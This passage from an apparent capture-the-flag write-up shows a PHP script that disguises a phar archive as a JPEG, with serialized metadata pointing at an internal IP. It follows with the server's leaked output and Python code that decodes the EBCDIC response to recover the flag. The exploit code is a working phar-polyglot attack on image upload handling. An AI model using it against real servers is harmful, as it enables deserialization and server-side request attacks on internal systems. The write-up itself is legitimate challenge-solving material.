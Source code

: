 ```
"\x01\x00\x02\x10\x03\x10\x00\x00\x01\x95\x00\x07\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x05\x02\x1f\xff\xc4\x00\x14\x11".
"\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20".
"\xff\xda\x00\x08\x01\x02\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x06\x3f\x02\x1f\xff\xc4\x00\x14\x10\x01".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x21\x1f\xff\xda\x00\x0c\x03\x01\x00\x02\x00\x03\x00\x00\x00\x10\x92\x4f\xff\xc4\x00\x14\x11\x01\x00".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda".
"\x00\x08\x01\x02\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x10\x1f\xff\xd9";
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString("test.txt","test");
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");
class MainClass {}
$object = new MainClass;
$object->url = 'http://172.17.0.2/%66%65%74%63%68%7e%25%5b%5d%5e%40%29%28';
$phar->setMetadata($object);
$phar->stopBuffering();


rename("test.phar","fake_image.jpeg");
?>
```

And yes we got last one :) 

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/52182462-be094b00-27fd-11e9-8968-702828f91051.png"></p>

```
File is not an image. http://172.17.0.2b'\xc8\x85\x93\x93\x96@a\x86\x85\xa3\x83\x88\xa1l\xad\xbd_|]M@@\x94\x85'
```


```
File is not an image. http://172.17.0.2/%66%65%74%63%68%7e%25%5b%5d%5e%40%29%28b'\xc6\x93\x81\x87\xc0\xd7\xc8\xd7m\xe2\xa3\x99\x85\x81\x94\xa2m\x81\x99\x85m\xa3\xf0\xf0m\xd4\x81\x89\x95\xe2\xa3\x99\x85\x81\x94\xf0\xd0'
```

So our last step will be to decode
**'\xc6\x93\x81\x87\xc0\xd7\xc8\xd7m\xe2\xa3\x99\x85\x81\x94\xa2m\x81\x99\x85m\xa3\xf0\xf0m\xd4\x81\x89\x95\xe2\xa3\x99\x85\x81\x94\xf0\xd0'** using same charset **CP1047**

```
import ebcdic
url = '\xc6\x93\x81\x87\xc0\xd7\xc8\xd7m\xe2\xa3\x99\x85\x81\x94\xa2m\x81\x99\x85m\xa3\xf0\xf0m\xd4\x81\x89\x95\xe2\xa3\x99\x85\x81\x94\xf0\xd0'.decode("cp1047")
print url
```
